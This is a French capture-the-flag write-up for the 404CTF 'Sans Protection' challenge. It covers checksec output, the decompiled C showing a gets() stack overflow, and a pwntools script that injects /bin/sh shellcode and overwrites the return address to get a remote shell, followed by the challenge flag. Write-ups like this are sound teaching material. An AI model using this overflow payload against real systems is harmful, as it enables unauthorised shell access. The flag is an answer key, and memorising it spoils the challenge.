

# Sans Protection

> Agent, maintenant que vous avez commencé à faire vos preuves, il est temps de vous envoyer sur des missions plus délicates. Avant cela, nous allons tester vos capacités à vous créer un accès à distance sur une machine faisant tourner un binaire faiblement protégé. Montrez-nous une fois de plus que vous êtes un allié de confiance.
>
> nc challenge.404ctf.fr 31720

## Description

Comme le nom l'indique, le binaire n'a aucune protection comme le montre `checksec`.

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

Reversons le binaire avec [Ghidra](https://ghidra-sre.org/).

Les fonctions n'ont pas de nom, mais on peut trouver la fonction `main` comme étant le premier argument de `__libc_start_main` dans la fonction `entry`.

Le code est le suivant:

```c
undefined8 main(void)
{
  char local_48 [64];
  
  setvbuf(stdout,(char *)0x0,2,0);
  puts(&DAT_004006f8);
  printf("Cadeau : %p\n",local_48);
  gets(local_48);
  return 0;
}
```

On nous donne l'adresse du buffer, et on peut utiliser `gets` qui nous autorise à entrer autant de caractères qu'on le souhaite.

## Solution

On peut alors effectuer un buffer overflow en écrivant sur la mémoire après le buffer. On écrit sur l'adresse de retour pour sauter à l'adresse de notre buffer, qui comprendra un shellcode pour exécuter un shell.

Je trouve le shellcode sur [shellstorm](https://shell-storm.org/shellcode/).

```python
from pwn import *

sh = remote("challenge.404ctf.fr", 31720)

sh.recvuntil(b"Cadeau :")
buffer_addr = int(sh.recvline(), 16)

SHELLCODE = b"\x48\x31\xc9\x48\xf7\xe1\x04\x3b\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x52\x53\x54\x5f\x52\x57\x54\x5e\x0f\x05"

payload = SHELLCODE + b"a"*(64+8-len(SHELLCODE)) + p64(buffer_addr)
sh.sendline(payload)

sh.interactive()
```



Flag : `404CTF{V0U5_3735_Pr37_P0Ur_14_Pr0CH41N3_M15510N}`